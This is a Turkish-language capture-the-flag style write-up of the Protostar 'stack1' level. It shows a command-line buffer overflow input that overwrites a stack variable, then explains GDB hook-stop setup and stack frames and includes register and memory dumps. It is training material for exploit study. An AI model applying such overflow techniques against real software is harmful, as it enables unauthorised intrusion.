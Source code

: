 **Little Endian**'a dikkat ederek :)

``` shell
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print('A'*64+'dcba')")
you have correctly got the variable to the right value
```

----
## GDB hook-stop
GDB'de hook-stop denilen programın akışı her durdurulduğunda istediğimiz
komutları sanki o komutları yazmışız gibi çalıştıran bir komut seti kuralı
yazabiliriz.

``` shell
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>info registers # register'ların durumunu gösterir
>x/i $eip # bir sonraki çalıştırılacak komutu gösterir
>x/16wx $esp # Stack'in durumunu 16word olarak gösterir
>end
```

**1 word 4byte olarak gdb içinde tanımlanmıştır.**

[Stack 0](../stack0)'da bahsettiğim gibi stack lokal değişkenlerin tutulduğu bir
veri yapısıdır. Bu sayede bir programın içerisinde aynı değişken ismi farklı
fonksiyonlar içerisinde yer alabilir.

Örnek vermek gerekirse programın içinde birden fazla *i* değişkeni olmasına
rağmen bir fonksiyonun içerisinde sadece tek *i* değişkeni bulunabilir. Bunun
olmasını sağlayan stack frame denilen, her fonksiyon için kendine ait bir stack
alanının bulunmasıdır.

``` shell
user@protostar:/opt/protostar/bin$ gdb stack1 -q # -q Banneri görmemek için
Reading symbols from /opt/protostar/bin/stack1...done.
(gdb) set disassembly-flavor intel
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>info registers
>x/i $eip
>x/16wx $esp
>end
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
eax            0x61626364       1633837924
ecx            0x0      0
edx            0x45     69
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff758       0xbffff758
esi            0x0      0
edi            0x0      0
eip            0x80484b9        0x80484b9 <main+85>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0x80484b9 <main+85>:    call   0x8048398 <puts@plt>
0xbffff6f0:     0x080485bc      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      0x41414141
0xbffff710:     0x41414141      0x41414141      0x41414141      0x41414141
```